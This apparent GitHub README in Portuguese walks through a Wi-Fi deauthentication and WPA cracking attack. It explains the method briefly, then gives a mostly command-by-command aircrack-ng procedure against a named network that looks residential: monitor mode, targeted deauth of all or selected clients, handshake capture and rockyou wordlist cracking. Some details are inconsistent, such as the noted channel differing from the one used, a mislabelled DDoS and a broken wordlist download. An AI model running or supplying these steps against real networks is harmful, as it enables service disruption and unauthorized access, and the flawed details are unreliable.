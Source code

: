 # 📁 Ataque de Deauth ou Dissociação de WI-FI

Redes cabeadas se autenticam com 3 Way Handshake, eqto redes de Wi-fi autenticam com 4 Way Handshake.

🛡️ Como funciona um ataque de desautenticação?

Os atacantes que desejam realizar um ataque de desautenticação geralmente usam dispositivos habilitados para Wi-Fi e software especializado. O processo básico envolve o seguinte:

    - Captura de tráfego Wi-Fi: O atacante inicia a captura de tráfego da rede Wi-Fi alvo usando ferramentas como um sniffer de pacotes.
    - Identificação de dispositivos-alvo: O atacante identifica os dispositivos que desejam desconectar da rede.
    - Envio de pacotes de desautenticação: Usando o endereço MAC dos dispositivos-alvo, o atacante envia pacotes de desautenticação, forçando os dispositivos a se desconectarem da rede.
    - Repetição contínua: O atacante pode repetir esse processo para manter os dispositivos desconectados da rede.

🎯 Objetivos de um ataque de desautenticação de Wi-Fi

Os atacantes realizam ataques de desautenticação de Wi-Fi por várias razões, incluindo:

    - Interrupção da conectividade: Desconectar dispositivos da rede pode causar interrupções significativas nas operações normais, afetando a produtividade e o acesso à Internet.
    - Espionagem: O ataque pode ser usado como uma tática para espionar o tráfego de rede dos dispositivos-alvo enquanto eles tentam se reconectar à rede.
    - Ameaças cibernéticas: Em alguns casos, os ataques de desautenticação podem ser o primeiro passo para invasões mais graves, como ataques de força bruta a senhas.


## Instala a ferramenta de monitoramento:

```bash
sudo apt install aircrack-ng
```

## Valida o nome da sua placa de rede wi-fi:

```bash
ip -c addr
```

## Valida possíveis conflitos de hardware antes de iniciar os processos:

```bash
sudo airmon-ng check kill
```

## Coloca a placa de rede wi-fi em modo monitoramento:

```bash
sudo airmon-ng start wlan0
```

## Valida o novo nome da sua placa de captura de redes wi-fi:

```bash
ip -c addr
```

```bash
sudo airmon-ng
```

## Inicia o scan de todas as redes próximas (aparecerão diversas redes):

```bash
sudo airodump-ng wlan0mon
```

## Encerra o scan das redes após escolher o alvo:

```bash
ctrl+c
```

## Anote o ESSID (Nome) da rede alvo, bem como o BSSID (MAC) e tbém o CANAL (CH):

```bash
Condominio_Flores_II
```

```bash
64:D1:54:09:EE:3E
```

```bash
4
```

## Podemos validar apenas a rede alvo, se preferir:

```bash
sudo airodump-ng wlan0mon -d 64:D1:54:09:EE:3E
```

## Posso me conectar á rede wi-fi alvo, se for um laboratório, usando um celular.

## Vai constar o novo cliente, com dados do aparelho, definidos em STATION.

**`TERMINAL 01`** - VAMOS INICIAR A CAPTURA DOS PACOTES

## Subo o comando de captura de pacotes da rede alvo e salvo o arquivo de captura:

```bash
sudo airodump-ng -w capturados -c 2 --bssid 64:D1:54:09:EE:3E wlan0mon
```
OU
```bash
sudo airodump-ng -w capturados --channel 2 --essid Condominio_Flores_II wlan0mon
```

Á partir daqui, eu aguardo algum dispositivo se conectar para realizar a captura do 4 Way Hand Shake.... OU

**`TERMINAL 02`** - VAMOS INICIAR O ATAQUE DE DESAUTENTICAÇÃO

## Inicia o ataque ao roteador alvo (todos os clientes caem durante o ataque):

```bash
sudo aireplay-ng --deauth 0 -a 64:D1:54:09:EE:3E wlan0mon
```

Posso tbém, desautenticar apenas um dispositivo específico

```bash
sudo aireplay-ng --deauth 5 -a 64:D1:54:09:EE:3E -c 28:6C:07:6F:F9:53 wlan0mon
```

## Ao tentar re-conexão, os clientes entregam o handshake de 4 vias no TERMINAL 01:

```bash
[WPA handshake]: 64:D1:54:09:EE:3E
```

## Podemos encerrar a captura no TERMINAL 01

```bash
ctrl+c
```

## Podemos encerrar o ataque no TERMINAL 02

```bash
ctrl+c
```

## Até esse ponto apenas teríamos um ataque de Negação de serviço (DDOS), MAS, nós salvamos um arquivo com informações (capturados.cap) e vamos usá-lo

## Instale o Wireshark e abra o arquivo de captura, filtrando mensagens criptografadas, do tipo EAPOL:

```bash
sudo apt install wireshark
```

```bash
wireshark capturados.cap
```

OU

## Baixe sua wordlist para quebrar a senha capturada usando o aircrack-ng:

```bash
wget https://github.com/zacheller/rockyou.git
```

```bash
wc -l rockyou.txt
```

## Focaremos apenas em senhas que contenham de 8 a 64 caracteres, diminuindo o tempo de conjunções:

```bash
sudo grep -x '.\{8,64\}' rockyou.txt > wparockyou.txt
```

```bash
wc -l wparockyou.txt
```

```bash
aircrack-ng capturados.cap -w /home/usuariox/wordlists/rockyou.txt
```

## O resultado deve ser uma mensagem:

```bash
KEY FOUNF [ P@ssword123 ]
```

## Retira a placa de rede wi-fi do modo monitoramento:

```bash
airmon-ng stop wlan0mon
```

## Restaura sua placa de rede para navegação:

```bash
systemctl restart NetworkManager
```


## Alternativa de varredura de rede pelo terminal:
```bash
nmcli device wifi list 
```
```bash
N-USE = rede que você está usando
BSSID = endereço do roteador
SSID = nome da rede
MODE = infra (?)
CHAN = canal que está sendo utilizado pelo roteador
RATE = taxa de transferência
SIGNAL = intensidade do sinal em %
BARS = intensidade do sinal em barras
SECURITY = protocolos de segurança do roteador
```



